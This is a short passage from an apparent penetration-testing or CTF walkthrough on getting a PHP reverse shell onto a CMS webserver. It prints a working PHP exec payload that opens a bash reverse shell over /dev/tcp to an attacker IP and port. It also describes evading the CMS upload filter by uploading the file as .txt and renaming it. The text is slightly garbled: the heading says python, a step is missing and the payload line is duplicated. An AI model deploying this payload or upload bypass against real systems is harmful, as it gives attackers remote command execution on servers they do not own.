

4.5 Create a python a reverse shell
We need a php reverse shell in order to have upload access to a webserver that’s running PHP.
You can download one from here.
1. Download the file.
2. Edit the “shell.php” file and change the attacker machine IP.
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.12.10/1234 0>&1'");
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.12.10/1234 0>&1'");
4. Save the file as “shell.php.txt”. The CMS doesn't allow to upload “php” files.
5. On CMS admin page copy the “shell.php.txt” file.
6. Rename the file to “shell.php”.
